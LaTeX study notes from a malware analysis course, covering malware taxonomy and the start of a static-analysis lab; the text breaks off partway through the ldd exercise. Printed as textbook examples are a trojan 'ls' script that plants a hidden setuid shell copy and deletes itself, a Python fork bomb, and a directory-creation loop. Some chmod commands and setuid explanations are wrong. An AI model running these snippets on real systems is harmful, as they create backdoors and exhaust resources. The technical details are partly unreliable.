\documentclass[]{project_plan}
\usepackage{graphicx, subcaption, float}
\usepackage{hyperref}
\usepackage{xcolor}
\usepackage{cite}
\usepackage{ upgreek, amsmath, tipa , textcomp, amssymb, textcomp   }
\usepackage{listings, xcolor}
\usepackage{caption, wrapfig}
\usepackage{tikz}
\newcommand*\circled[1]{\tikz[baseline=(char.base)]{
            \node[shape=circle,draw,inner sep=2pt] (char) {#1};}}


\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{245,244,243}

\lstdefinestyle{mycodestyle}{
    backgroundcolor=\color{backcolour},
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily,
    breakatwhitespace=false,
    breaklines=true,
    captionpos=b,
    keepspaces=true,
    numbers=left,
    numbersep=5pt,
    showspaces=false,
    showstringspaces=false,
    showtabs=false,
    tabsize=2
}

\lstset{style=mycodestyle}

\lstset{
        literate={\$}{{\textcolor{black}{\$}}}1
        }


\newcommand{\bulletPoint}{\hspace{-3.1pt}$\bullet$ \hspace{5pt}}
\newcommand{\sectionbreak}{%
\begin{center}
  % $\ast$~$\ast$~$\ast$
  \noindent\rule{8cm}{0.4pt}
\end{center}
}
\setcounter{tocdepth}{7}


%---

\def\studentname{Faeq}
\def\projecttitle{Malicious Software}

%---

\begin{document}

\chapter{What is Taught}
\begin{itemize}
  \item Lecture 1 - Introduction
        \begin{itemize}
          \item Definitions of malware, a shebang, taxonomy, grayware, trojan horses,
                command-and-control server, rootkit, virus, spread-condition, worms, downloader, dropper, back door, RAT,
                logic bombs, spyware, botnet, ransomware (locker \& crypto), wipers, cryptojacking, adware
          \item The fact that there are different malware types, families, and \underline{types of classification}
          \item Phases of a virus; insertion \& execution
          \item Types of virus; Overwriting, companion, parasitic (prepending, appending \& fragmenting),
                memory-resident, boot-sector, multi-partite, file infectors, macro viruses, script viruses, rabbit
          \item Bot lifecycle \& organization
          \item The three levels of (mobile) adware
        \end{itemize}
  \item Lab 1 - Approaching Static Malware Analysis
        \begin{itemize}
          \item What static analysis is and what it involves; code disassembly \&
                extraction of resources like strings or images
          \item The PE file format; DOS, PE, Optional, and Section headers \& the .text, .idata, .reloc (+ data) sections
          \item The fact that you can determine the file type using the \underline{\lstinline|file|} command,
                see shared object dependencies using the \underline{\lstinline|ldd|} command, see file contents using
                \underline{\lstinline|hexdump -C|} for canonical (human readable) display, see sequences
                of printable characters using \underline{\lstinline|strings|}, get information about ELF files using \underline{\lstinline|readelf|},
                list symbols from object files using \underline{\lstinline|nm|} and use \underline{\lstinline|objdump|} to reverse engineer binaries, or simply to
                get more information on a given executable file (disassembly).
          \item The fact that some malware trick the victim into believing that they
                are a PDF or other file through the use of a different icon.
          \item Fingerprinting using cryptographic hashes
        \end{itemize}
  \item Lecture 2 - Anatomy of a Binary
        \begin{itemize}
          \item The phases of the C compilation process; preprocessing, compilation, assembly and linking
          \item The ELF file format; executable and program headers, \& the sections, \& lastly the section headers
          \item Definitions of lazy binding, binary analysis, disassembly, decompilation, dynamic analysis, instructions,
                directives, labels, comments, registers (rax, eax, ax, ah, al, rip, eip, ip, rflags, eflags, segment
                registers (6), control registers (11), debuger registers (8), MSRs), memory operands, immediates, little-endian
          \item Specifying memory operands with [base + index*scale + displacement] and DWORD PTR
          \item Common assembly instructions; mov, xchg, push, pop, add, sub, inc, dec, neg, cmp, and, or, xor, not, test, jmp, call, ret, syscall, je, ja, jb, jg, jl, jge, jle, js, lea
          \item The stack; a memory region for storing data related to function calls (LIFO) - frames \& rsp (esp), rbp (ebp)
          \item prologues, the enter instruction, storage for argc and argv, passing arguments to a function (rdi, rsi, rdx, rcx, r8, r9 \& then the stack), cdecl, fastcall, the red zone, getenv
          \item loops are indicated by jumps to earlier addresses
        \end{itemize}
  \item Lab 2 - Disassembling Binaries
        \begin{itemize}
          \item The use of the program counter (eip)
          \item Pefile \& Capstone, objdump, ghidra for disassembly
          \item The fact that it is normal for DLLs to have exported functions, but executables generally do not have
                exports - if they do they tend to be malicious and are exporting the entry point (the address of the first instruction) of the
                program.
          \item the use of Microsoft documentation for interpreting constant string values
        \end{itemize}
  \item Lecture 3 - Malware Functionalities
        \begin{itemize}
          \item Infection vectors; phishing, homograph attacks, spearphishing, spam
                email, malvertising, compromised sites, drive-by-download, API exploitation,
                watering hole attacks, macros \& scripts, exploit kits, fileless malware
          \item Malware functionalities; downloader, dropper, keylogger, replication,
                command and control, persistence, DLL \& COM hijacking, code injection and hooking,
                remote DLL \& Shellcode injection, hollow process injection
        \end{itemize}
  \item Lab 3 - Dynamic Analysis
        \begin{itemize}
          \item The use of strace for system calls, ltrace for library calls, BinText for strings, \& PeStudio for indicators
          \item Dynamic analysis during infection using Process Hacker, Process
                Monitor, RegShot, Wireshark and visualizations with ProcDOT
          \item Network analysis using FakeDNS, Wireshark and the \lstinline|xxd| command to convert hex to ASCII.
          \item x64dbg for debugging \& decoding obfuscated data
        \end{itemize}
  \item Lecture 4 - Malware analysis
        \begin{itemize}
          \item The early days; static analysis, heuristics, traditional malware
          \item Anti-virus \& signature-based detection; strings, checksums,
                cryptographic hashes, fuzzy hash functions, graph-based hashes
          \item Disassembly algorithms; linear \& recursive
          \item Dynamic disassembly, debugging, CFGs, \& interactions
          \item  Virtualization, emulation, simulation, sandboxes
          \item Test suites, fuzzers, symbolic execution
          \item Definitions of disassembler, debugger, decompiler
        \end{itemize}
  \item Lab 4 - Shared Code Analysis
        \begin{itemize}
          \item Types of buffer overflow; stack-based \& heap-based
          \item NOP sleds \& shellcode
          \item Mitigation techniques; ASLR
          \item Use of a stack smashing exploit to create a code injection exploit through analysis with gdb
          \item reflected XSS for Session Hijacking Attacks, stored XSS \& SQL injection
        \end{itemize}
  \item Lecture 5 - Malware Anti-Analysis
        \begin{itemize}
          \item definitions of a \underline{complete} static analyzer, a \underline{sound} static analysis,
                opaque predicates, control flow flattening, conditional code obfuscation, Forced multi-path exploration,
                anti-analysis, obfuscation, Red-pills (SIDT, IDTR, )
          \item basic obfuscation; base64 encoding, xor
          \item Anti-Static Analysis Techniques; junk insertion, branch functions, overlapping instructions, Packing
          \item algorithmic, algorithmic-agnostic unpacking, Self-Emulating Malware
          \item Polymorphisms; encrypted, Oligomorphic, polymorphic, Metamorphic
          \item The ptrace trick, the Escape From The ptrace() Trick
          \item Categories of system fingerprints; environmental artifacts, timing,
                CPU virtualization, process introspection, reverse turing tests, network
                artifacts, mobile sensors, browser specific
          \item System architecture approaches; Emulator, Hosted VM, Hypervisor, Bare Metal
        \end{itemize}
  \item Lab 5 - Building a Machine Learning Detector
        \begin{itemize}
          \item Using hashes of features for detectors
          \item ROC Curves \& K-Fold Cross Validation for evaluating detectors
          \item performance metrics for detectors; the precision-recall curve, the confusion matrix and the F1 Score
        \end{itemize}
  \item Lecture 6 - Buffer Overflow, SQL Injection, and Cross-Site Scripting
        \begin{itemize}
          \item The layout of the call stack \& stack frames \& what occurs on the call stack when you call a function
          \item definition of a buffer,
        \end{itemize}
  \item Lecture 7 - Machine Learning for Malware Analysis \& Detection
        \begin{itemize}
          \item Definitions of ML
          \item Uses of ML - supervised and unsupervised (classification, regression, clustering)
        \end{itemize}
\end{itemize}

\newpage

\tableofcontents\pdfbookmark[0]{Table of Contents}{toc}\newpage

%---

\chapter{Lecture 1 - Introduction}

\textbf{Malware}\\
A malicious software, more commonly called malware, is a set of instructions that
cause a site’s \colorbox{green}{security policy to be violated}

\textbf{Example:} the following UNIX script is named \lstinline|ls| and is placed in a directory

\begin{lstlisting}
  #!/bin/sh
  # Make a privileged, hidden copy of the shell (command interpreter)
  cp /bin/sh /tmp/.xxsh
  chmod u+s, o+x /tmp/.xxsh
  # Do what the victim thinks is *all* you are doing
  ls $*
  # Delete this file
  rm ./ls
\end{lstlisting}

The \lstinline|#!/bin/sh| is a \colorbox{green}{shebang}. It tells the script which \colorbox{green}{program to run} on

setuid is a permission bit that allows files to be executed with
the permissions of the file owner (so the copied shell has root access).

the malicious script described in the
problem creates a hidden file in /tmp with elevated
privileges

the malicious script is considered a violation as it escalates privileges and creates a backdoor
without authorization

the owner of /bin/sh originally  is root originally, and after
copying it to /tmp/.xxsh  it is
the user who ran the script (unless run as root).

The script is copied with a leading . to hide it from standard directory listings.

This script creates a copy of the UNIX shell that is setuid to the user executing this program

The correct ls command is executed, and then this program is deleted

On most systems, it is against policy to trick someone into creating a shell that is
setuid to themselves

If someone is tricked into executing this script, a violation of the (implicit) security policy occurs

This script is an example of malicious logic/program

\newpage

Suppose the user root executed the previous script unintentionally (for example, by typing ls in
the directory containing the script)

This would be a violation of the security policy. However, if root deliberately typed:
\begin{lstlisting}
  cp /bin/sh /tmp/.xxsh
  chmod o+s, w+x /tmp/.xxsh
\end{lstlisting}
the security policy would not be violated

Crucial problem with malware: the system cannot determine whether the instructions
being executed by a process are known to the user or are a set of instructions that the user
does not intend to execute

\section{Malicious Software Taxonomy}

Malware \colorbox{green}{taxonomy}: the art and science of malware classification
\begin{itemize}
  \item useful in several contexts, e.g. to communicate the cyber-threats across teams using a precise language
  \item Several types of classification:
        \begin{itemize}
          \item \colorbox{green}{functional} classification: what are the malware distinguishing features (e.g., virus, worm, ransomware, etc.)? Focus
                on \colorbox{green}{malware’s goals}
          \item \colorbox{green}{behavioural} classification: focus on the malware \colorbox{green}{exhibited behavior} to accomplish the goal
          \item \colorbox{green}{authorship} classification: based on the \colorbox{green}{authors/tools used to create} the malware – focus is malware attribution
        \end{itemize}
  \item Malware types: e.g., worms, viruses, Trojan horses, ransomware, etc.
  \item Malware families: e.g., GandCrab, Ryuk, Sodinokibi - these are all ransomware
  \item Sample: a specific instance of a malware (unique signature)
\end{itemize}

\begin{figure}[H]
  \centering
  \includegraphics*[width=.7\linewidth]{taxonomy.png}
\end{figure}

\colorbox{green}{Grayware} is unwanted programs, that aren't completely malicious

hash values can collide, but they are still a good indicator

Sometimes a malware might bundle different functionalities or components together, e.g.:\\
• CryptoRansomware + Worm (e.g., WannaCry)\\

\subsection{Trojan horse}

A \colorbox{green}{\textbf{Trojan horse}} is a program with an \colorbox{green}{overt} (documented or known) purpose \colorbox{green}{and a covert} (undocumented or
unexpected) \colorbox{green}{purpose}

In the preceding script, the overt purpose is to list the files in a directory. The covert purpose is to create a shell that is
setuid to the user executing the script.

A \colorbox{green}{\textbf{command-and-control server}} is one that \colorbox{green}{sends commands to an app} so
that a \\\colorbox{green}{third party has control over a device}. These can create DDOS attacks.

\subsection{Rootkit}

A \colorbox{green}{\textbf{rootkit}} is a pernicious \colorbox{green}{Trojan horse}\\
• It hides itself on a system so it can carry out its actions without detection

A type of malware that \colorbox{green}{provides unauthorized access to a system while hiding its presence}.

The earliest rootkits \colorbox{yellow}{first installed backdoors} and other traps at various places in the system
The rootkit then \colorbox{yellow}{changes various system programs} that report on the status of the system and
its components, e.g.:\\
• a program that lists the contents of a directory would be altered to not report the presence of certain
files\\
• a network status program would be altered so it would not show network connections from
specific hosts

An early approach to counter rootkits was to \colorbox{pink}{run nonstandard programs} to get the same information, e.g.:\\
• a program might access the directory directly and read its contents\\
• looking for specific strings in the Trojaned executables, and using cryptographically strong
checksums to determine when changes had occurred

could also \colorbox{pink}{create checksums at the kernel level}, before the user level is loaded up,
to check for user-level rootkits

These programs bypassed the system programs, using system calls and
information from the kernel to obtain the required information

Later rootkits were more sophisticated, e.g. \colorbox{yellow}{they altered parts of the kernel}, typically by
changing loaded modules so that any program accessing the kernel to retrieve
information would get information that had been filtered

\subsection{Virus}

\textbf{A (computer) virus} is a program that \colorbox{green}{inserts} (a possibly transformed version of)
\colorbox{green}{itself into one } \colorbox{green}{or more files} and then \colorbox{green}{performs some} (possibly null) \colorbox{green}{action}\\
• The first phase, in which the virus \colorbox{yellow}{inserts itself} into a file, is called the \colorbox{green}{\textbf{insertion phase}}\\
• The second phase, in which it \colorbox{yellow}{performs some action}, is called the \colorbox{green}{\textbf{execution phase}}

Psuedocode example;
\begin{lstlisting}
  begin virus:
    if spread-condition then
      for some set of target files do
        if target is not infected then
          determine where to place virus instructions
          copy instructions from begin-virus to end-virus into target
          alter target to execute added instructions
        end;
      end;
    end;
    perform some action(s)
    go to beginning of infected program
  end virus:
\end{lstlisting}

The \colorbox{yellow}{insertion phase must be present} but need not always be executed

Early viruses would \colorbox{yellow}{check for an uninfected boot file} (helps with replication since it is important and will run for some time) (\textbf{spread-condition})
and, if one was found, would infect that file (\textbf{the set of target files}).
Then it would increment a counter and test to see
if the \colorbox{yellow}{counter} was at 4 and, if so, it would \colorbox{yellow}{erase the disk} (\textbf{the action(s)})

\begin{figure}[H]
  \centering
  \includegraphics*[width=\linewidth]{virus_classification.png}
\end{figure}

\newpage

\subsubsection{Overwriting viruses}

• \colorbox{green}{overwrites section} of program file with virus\\
• \colorbox{yellow}{may break infected program}

\begin{figure}[H]
  \centering
  \includegraphics*[width=.7\linewidth]{overwriting_viruses.png}
\end{figure}

The virus \colorbox{yellow}{reads what the file does} and then embeds itself on top of that

\colorbox{pink}{easy to detect} since (smaller) files that used to have \colorbox{pink}{different sizes}, etc., now have the \colorbox{pink}{same size and the same date}, if the metadata is not overwritten

\subsubsection{Companion viruses}
• in DOS, if no extension is given, the \colorbox{yellow}{order of
  execution is COM, EXE, and then BAT}\\
• e.g., infects COM file of same name as EXE file

\begin{figure}[H]
  \centering
  \includegraphics*[width=.7\linewidth]{companion_viruses.png}
\end{figure}

\colorbox{yellow}{made as a COM file} so that it has the highest priority over the
'checking if it is an executable' procedure. It then renames itself,
and hides itself in directory listings. When the infected file is run, the
virus \colorbox{yellow}{runs completely and then passes control} to the EXE so that the original file
runs

\subsubsection{Parasitic viruses}
\begin{itemize}
  \item \colorbox{green}{prepending}:
        \begin{itemize}
          \item \colorbox{yellow}{insert} virus code at \colorbox{yellow}{beginning} of executable
          \item shift original code to follow virus
        \end{itemize}
  \item \colorbox{green}{appending}:
        \begin{itemize}
          \item \colorbox{yellow}{append} virus code to executable
          \item \colorbox{yellow}{insert} JMP at beginning of executable
        \end{itemize}
  \item \colorbox{green}{fragmenting}:
        \begin{itemize}
          \item code is \colorbox{yellow}{intermixed} with original ones
        \end{itemize}
\end{itemize}

Increases the \colorbox{pink}{file size} - detectable through \colorbox{pink}{checksums, hashes, etc.}

\begin{figure}[H]
  \centering
  \includegraphics*[width=.7\linewidth]{parasitic_viruses.png}
\end{figure}

\subsubsection{Memory-resident viruses}
\colorbox{green}{do not infect files directly} upon execution, but \colorbox{yellow}{instead hide} and
\colorbox{yellow}{wait in memory} until a \colorbox{yellow}{host program is executed} and infect it, e.g.
by utilizing DOS’s TSR Terminate but Stay Resident system call

similar concept is \colorbox{green}{fileless malware}: it resides in \colorbox{green}{volatile} system
areas such as the system registry, in-memory processes and
service area

\begin{figure}[H]
  \centering
  \includegraphics*[width=.7\linewidth]{memory_resident_viruses.png}
\end{figure}

\subsubsection{Boot Sector Viruses}
"The worst kind"

the boot sector is the part of a disk used to bootstrap the system

When the \colorbox{yellow}{system boots}, \colorbox{green}{any virus in that sector is executed}:\\
• a boot-sector virus works by \colorbox{yellow}{hijacking the first instruction}
in the boot sector to \colorbox{yellow}{point to itself},\\
• and then \colorbox{yellow}{passes control back} to the boot sector code after virus
execution

since a boot sector only contains 512 bytes of code,
a boot-sector virus often utilizes other sectors of
the disk to hide its code

In the old days, a boot-sector virus would
spread from one machine to another via an
infected floppy disk boot-sector

on hard-drives, a boot-sector virus can hijack the boot
code in the master-boot-record (MBR) or use it to find
the boot sector of the bootable partition and hijack that
instead

similar concepts are bootkits: rootkit variants that
modify the boot sectors of a hard drive (e.g., MBR and
VBR)



\begin{figure}[H]
  \centering
  \includegraphics*[width=\linewidth]{boot_sector_viruses.png}
\end{figure}

\subsubsection{Multi-partite Viruses}

In the context of DOS computer viruses, \colorbox{green}{multi-partite} viruses are viruses that \colorbox{yellow}{infect
  both boot sector and files}

This virus has a boot-sector component and a file infector component

When executed, the virus looks for files to infect and then looks for the presence of
disks in drives and infects their boot sectors

If it supports MBR infection, it looks for a fixed drive and attempts to infect that as well

The infection method \colorbox{yellow}{does not need to be in any particular order}

\subsubsection{File Infectors - includes Macro \& Script viruses}

Infecting \colorbox{green}{executable programs} (e.g., COM, EXE):\\
• executes when infected program is run\\
• virus usually runs first, then runs original code\\

Infecting \colorbox{green}{loadable device drivers}:\\
• executes in kernel mode

Infecting \colorbox{green}{archives}:\\
• e.g., inserts Trojan Horse into ZIP files\\
• uses social engineering techniques to get user to run

Infecting dynamically linked libraries (\colorbox{green}{DLLs}):\\
• executed when any program load/uses infected DLL

\colorbox{green}{Macro/script} viruses:\\
• infect interpreted code\\
• need interpreter, such as sh, MS Word macro, VBScript, JScript\\
• not bound by machine architecture

\textbf{Macro virus}\\
A macro virus is a virus composed of a \colorbox{green}{sequence of instructions that is interpreted} (line by line compilation)
rather than executed directly

Conceptually, macro viruses are \colorbox{yellow}{no different} from ordinary computer viruses

\newpage

They can execute on any system that can interpret the instructions\\
• For example, a spreadsheet virus executes when the spreadsheet interprets these
instructions

\colorbox{yellow}{If} the macro \colorbox{yellow}{language allows} the macro to \colorbox{yellow}{access files or other resources}, the \colorbox{yellow}{virus
  can access them too}

A macro virus can infect either executables or data files (the latter leads to the name
data virus)

\textbf{Script viruses}\\
\colorbox{yellow}{Similar to macro viruses}, but they typically rely on \colorbox{green}{higher level programming
  languages constructs} (and interpreters) rather then being tied to applications (e.g.,
Excel/Word); but sometimes the \colorbox{yellow}{distinction is not clear-cut} (e.g., Visual Basic)

Examples:\\
• Visual Basics Scripting\\
• JavaScript

\subsubsection{Worm}

A (computer) worm is a program that \colorbox{green}{copies itself from one computer to another}

A computer virus infects other programs. A variant of the virus is a program that spreads from computer
to computer, spawning copies of itself on each one

Computer worms generally exhibit \colorbox{yellow}{three phases}:\\
1. \colorbox{yellow}{target selection} occurs when the worm determines what systems to attempt to spread to\\
2. then the \colorbox{yellow}{propagation} begins, with the worm attempting to infect the set of chosen targets\\
3. after this, the worm enters the \colorbox{yellow}{execution} phase once it is resident on the target

The \colorbox{yellow}{last phase may be empty}, in which case the worm is simply spreading

These phases are similar to the phases of a
computer virus, with the target selection and
propagation phases corresponding to the
virus’ infection phase

\colorbox{yellow}{Rate of infection can grow exponentially}:\\
• Code-Red worm infected 359,000 computers in \textless 14 hours\\
• Slammer worm infected 75,000 computers in \textless 10 minutes

A \colorbox{green}{\textbf{quine}} is a computer program which produces a \colorbox{yellow}{copy of its own source code} as its only
output:\\
• a fixed point of an execution environment, when the execution environment is viewed as a
function\\
• quines are \colorbox{yellow}{possible in any programming language} that has the ability to output any computable string,
as a direct consequence of Kleene’s recursion theorem

A quine takes no input

An example;
\begin{lstlisting}
  #!/bin/sh
  # Invalid quine .
  # Reading the executed file from disk is cheating.
  cat $0
\end{lstlisting}

Example in C:
\begin{lstlisting}
  main(a) {
    printf(a="main(a) { printf(a=%c%s%c, 34, a, 34); }", 34, a, 34);
  }
\end{lstlisting}

Example in Python 3.8:
\begin{lstlisting}
  exec(s:='print("exec(s:=%r)" % s)')
\end{lstlisting}

\subsection{Viruses vs. Worms}

Both viruses and worms propagate themselves, but in different ways.

They can overload memory / system resources and cause issues like the BSOD

a virus is a program fragment that \colorbox{cyan}{infects other programs by modifying them} to include a
copy of the virus code, which can then go on to infect other programs

a worm is a \colorbox{cyan}{self-replicating but non-infecting} program that \colorbox{cyan}{uses network
  connections} to spread from system to system

worms, in contrast to viruses, which require the spreading of an infected host file, are
standalone software and \colorbox{cyan}{do not require a host program or human help} to propagate

\subsection{Virus Terminology}

Please note that nowadays the term
“virus" is often used as a synonym of
malware, e.g.:

• “my computer has been infected with a
virus!" (maybe it is a cryptominer, a
ransomware, rather than a virus)

• “I’m using an anti-virus to protect my
PC" (it should be called more correctly
an anti-malware)

\subsection{Downloader and Dropper}

Downloader:\\
A \colorbox{green}{downloader} is a malware that has the primary functionality of \colorbox{yellow}{downloading content}
such as configuration/command information, miscellaneous files, other malware,
misleading apps, secondary components of, or upgrades to the existing attack

Dropper:\\
A \colorbox{green}{dropper} is a malware component designed to \colorbox{yellow}{install additional malware} (e.g., virus,
backdoor, etc.) to a target system. The malware code can be \colorbox{yellow}{contained within the dropper}
\colorbox{green}{(single-stage)} in such a way as to avoid detection by virus scanners or the dropper may
\colorbox{yellow}{download the malware} to the target machine once activated \colorbox{green}{(two stage)}

A dropper is \colorbox{yellow}{more specific} about what it puts on the system - can be for a specific virus

\subsection{Back door \& RAT}

A \colorbox{green}{back door} is a method of \colorbox{yellow}{bypassing normal authentication procedures}. For example, once
a system has been compromised, one or more back doors could be installed to allow the
attacker access in the future

Malware back door\\
A \colorbox{green}{malware back door} is a type of \colorbox{yellow}{malware that also includes back door functionalities}

A \colorbox{green}{Remote Access Tool (RAT)} is a full bundle \colorbox{yellow}{Trojaned} application that includes a \colorbox{yellow}{client} application
meant for installation on the target system, and a \colorbox{yellow}{server} component that allows \colorbox{yellow}{administration} and
control of the compromised host. Helps \colorbox{yellow}{facilitate infiltration}

\subsection{Rabbit Viruses}
A \colorbox{green}{rabbit} is a program that \colorbox{yellow}{consumes all resources} of some type

Named this way since rabbits replicate like crazy

Fork bomb;
\begin{lstlisting}
  import os
  while True:
    os.fork()
\end{lstlisting}

Example;
\begin{lstlisting}
  while true
  do
    mkdir x
    cd x
  done
\end{lstlisting}

\subsection{Logic Bombs}

Some malware triggers on an external event, such as a user logging in or the arrival of midnight@Friday
the 13th - Jerusalem virus

\colorbox{green}{Logic bomb};\\
A logic bomb is a program that performs an action that violates the security policy \colorbox{yellow}{when some
  external} \colorbox{yellow}{event occurs}

\subsection{Spyware}

\colorbox{green}{Spyware} is a \colorbox{yellow}{Trojan horse} that \colorbox{yellow}{records information about the use of a computer},
usually resulting in confidential information such as keystrokes, passwords, credit card numbers, and
visits to web sites.

The information \colorbox{yellow}{may be transmitted} to a third party, \colorbox{yellow}{stored} for later transmission,
or stored for retrieval by a third party.

A spyware is \colorbox{yellow}{designed to be invisible} to the user and system

E.g., Pegasus spyware

\colorbox{green}{zero-day attacks} / vulnerabilities are \colorbox{yellow}{non-documented}, known attacks, usually
sold on markets to the highest bidder

\subsection{Botnet}

Sometimes attackers \colorbox{yellow}{coordinate actions} among malware on different systems. The
malware can \colorbox{yellow}{pre-set specific actions} to occur with specific triggers or based on particular
messages that the attacker sends

\colorbox{green}{A bot} is malware that carries out some (malicious) \colorbox{yellow}{action in co-ordination} with other
bots.

The attacker, called a \colorbox{green}{botmaster}, \colorbox{yellow}{controls} the bots from one or more systems called
\colorbox{yellow}{command and control (C\&C) servers} or \colorbox{yellow}{motherships}. They communicate over paths called
\colorbox{yellow}{C\&C channels}.

A collection of bots is a botnet

Each bot in a botnet has four stages in its life cycle:
\begin{enumerate}
  \item The bot first \colorbox{yellow}{infects} a system, e.g. as a computer worm or Trojan horse resident in a program that
        victim installs and executes or through the exploitation of a vulnerability
  \item The bot then \colorbox{yellow}{checks for a network connection}, and looks for either a C\&C server or another node
        that it can communicate with
  \item The bot is then \colorbox{yellow}{given commands} to execute by the C\&C server or other node (this may also
        \colorbox{yellow}{involve downloading additional components} to the bot to add to its capabilities)
  \item The bot \colorbox{yellow}{executes} the commands (and may send the results to another node)
\end{enumerate}
Steps 3 and 4 are repeated as needed

Botnets can be \colorbox{cyan}{organized in three ways}:

1. Botnets may be \colorbox{yellow}{centralised} in which case each bot communicates directly with the
\colorbox{yellow}{botmaster}. However, the botmaster would then become a \colorbox{pink}{bottleneck} for large botnets

2. Many botnets use a \colorbox{yellow}{hierarchical structure} in which the botmaster communicates with a set
of bots that are in turn botmasters for other bots. This allows control over a large botnet

3. \colorbox{yellow}{Peer-to-peer} botnets use a C\&C structure in which there is no single C\&C server. Instead, a
peer-to-peer network is constructed, with the bots acting as peers. Thus, if some portion of the
botnet is \colorbox{pink}{deleted}, the remainder of the botnet can \colorbox{pink}{continue to function}

\subsection{Ransomware}

\colorbox{green}{Ransomware} is malware that \colorbox{yellow}{inhibits the use of resources} until a \colorbox{yellow}{ransom}, usually
monetary, is \colorbox{yellow}{paid}

Goal:\\
• render the victim’s system unusable\\
• and ask the user to pay a ransom to revert the damage

Two notable classes:\\
• \colorbox{green}{Locker}-Ransomware: \colorbox{yellow}{lock the victims’ computer} to prevent them from using it\\
• \colorbox{green}{Crypto}-Ransomware: \colorbox{yellow}{encrypt personal files} to make them inaccessible

\subsection{Wiper}
A \colorbox{green}{wiper} is a class of malware whose intention is to \colorbox{yellow}{wipe drives/data} of the computer it infects.

\subsection{Cryptominer}
\colorbox{green}{Cryptomining} malware (or cryptojacking) is a malware components designed to take
over a computer’s resources and use them for \colorbox{yellow}{cryptocurrency mining} without a user’s
explicit permission

\begin{figure}[H]
  \centering
  \includegraphics*[width=\linewidth]{cryptominers.png}
\end{figure}

\subsection{Grayware}

Applications that behave in a manner that is \colorbox{yellow}{annoying or undesirable}, and yet less serious
or troublesome than malware

• Not classified as malware, but can still \colorbox{yellow}{negatively affect the performance} of the
computers/networks and introduce significant security risks

• Examples: adware, potentially unwanted program (\colorbox{green}{PUP}), bloatware

• Difficult to categorize correctly

• In some cases, no uniformity among anti-virus vendors:

• the “Bing bar” (or similar ones) can be either classified as grayware (PUP) or malware
(spyware) by some anti-virus

\subsection{Adware}

\colorbox{green}{Adware} \colorbox{yellow}{displays advertisements} on systems. It may be benign if the user consents to it being
present and understands exactly what it does.

This is often not the case, and so adware is usually considered a form of malware

Adware is a \colorbox{yellow}{Trojan horse} that \colorbox{yellow}{gathers information} for marketing purposes and
\colorbox{yellow}{displays advertisements}, often based on the gathered information

Often, the presence of adware is obvious, because of the advertisements it displays. The covert
purpose is to gather, or transmit, information about the user to provide advertisements of
products or services the user is likely to desire. But in some cases, this is expected

A Symantec report defines \colorbox{yellow}{three levels} of (mobile) adware:\\
\begin{enumerate}
  \item The least intrusive type, called low severity behaviour adware, simply displays ads and does
        not transmit any information
  \item The second type, medium severity behaviour adware, transmits information usually deemed
        low risk, such as location information. It may display ads based on this information
  \item The third type, high severity behaviour adware (also called “madware”) transmits other
        information such as phone numbers, account information, or other personal information, and
        presents ads tailored to devices or people with those characteristics.\\Also, this type of adware is
        typically aggressive in displaying ads, usually to the annoyance of users
\end{enumerate}

\chapter{Lab 1 - Approaching Static Malware Analysis}

When analysts approach a file that is suspected to be malware for the first time,
one of the first steps is to perform some basic operations while such malware is
NOT running yet.

Such activities are commonly referred to as \textbf{Static Analysis}.

The purpose of Static Analysis is to gather as much information as we can
before we actually run the malware, to get a grasp of what this piece of software
could do and maybe identify some common evasion techniques implemented by
the malware’s author(s).

This usually involves code disassembly and extraction
of printable strings or other resources such as images. While a good knowledge
of assembly language is typically very useful for reverse engineering, it is
sometimes enough to have some basic concepts of Static Analysis to successfully
reverse engineer simple files.

\section{The Portable Executable (PE) file format}

The Microsoft Windows Portable Executable file format defines the way in which
modern programs store data. It is used for .exe, .dll and .sys files, and it
contains instructions and all data required for the program to work.

Structure of a PE file;
\begin{figure}[H]
  \centering
  \includegraphics*[width=.5\linewidth]{pe_file_structure.png}
\end{figure}

\newpage

\begin{itemize}
  \item The \textbf{DOS header} is only present for compatibility reasons.
  \item The \textbf{PE header} includes some basic attributes for the file, such as compi-
        lation date and time, architecture (x86 or x64, for example), compression,
        and so on.
  \item The \textbf{Optional header} actually includes very useful information for re-
        verse engineers, such as the \textbf{entry point} (the first instruction that is
        executed once the program starts) or the size of the data that the opera-
        tive system loads into memory when the program is run.
  \item The \textbf{Section header} describes all sections included in the same PE file.
        Sections contain data that will be used by the program during execution,
        or contain instructions for the operative system, for example to be used
        during the loading process. Some sections are loaded in memory, whilst
        some others are not.
  \item The \textbf{.text} section usually contains executable x86 code.
  \item The \textbf{.idata} section contains the Import Address Table (IAT), which is
        a list of libraries that will be used by the program, along with the used
        functions.
  \item The \textbf{.reloc} section includes information for the translations of code to
        new memory locations, so that the code doesn’t break when it is not loaded
        in its intended memory location.
  \item Some other sections, called \textbf{Data sections}, contain images, audio, and
        other resources that will be used by the program. Data sections usually
        feature \textbf{.rsrc, .data and .rdata}.
\end{itemize}

\section{Exercise 1}

\subsection{file command}

Here is a C file that will be compiled into \lstinline|hello|.
\begin{lstlisting}
  #include <stdio.h>
  int main() {
    printf("Hello world!\n");
    return 0;
  }
\end{lstlisting}

The \lstinline|file| command determines the file type of a file. For the lab
\lstinline|ircbot.exe| file, the output is the following;

\begin{lstlisting}
  ircbot.exe: PE32 executable (GUI) Intel 80386, for MS Windows
\end{lstlisting}

Here we can see the file is a PE32 executable for Windows, that can display a GUI.

and for the hello file;
\begin{lstlisting}
  hello: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c4ca94a565da4fff997e9fbf8d927d9c714da38c, for GNU/Linux 3.2.0, with debug_info, not stripped
\end{lstlisting}

We can see many details. It is an ELF (Executable and Linkable format) file, for
64-bit x86-64 systems. We can also see the file's sha, the fact that it is for
GNU/Linux 3.2.0 and contains debug information.

Here we can see that the file is dynamically linked, meaning that it's dependencies
are referenced with names in the compiled file. The OS would have to find and load these
at run time. This is the opposite of statically linked files where the dependencies are
included within the file. Statically linked files can be moved about on USB drives, etc.

\subsection{ldd command}

The \lstinline|ldd| command prints shared object dependencies. For the lab
\lstinline|ircbot.exe| file, the output is the following;
\begin{lstlisting}
  not a dynamic executable
\end{lstlisting}

So we can see that the file is statically linked.

and for the hello file;
\begin{lstlisting}
  linux-vdso.so.1 (0x00007ffc478b4000)
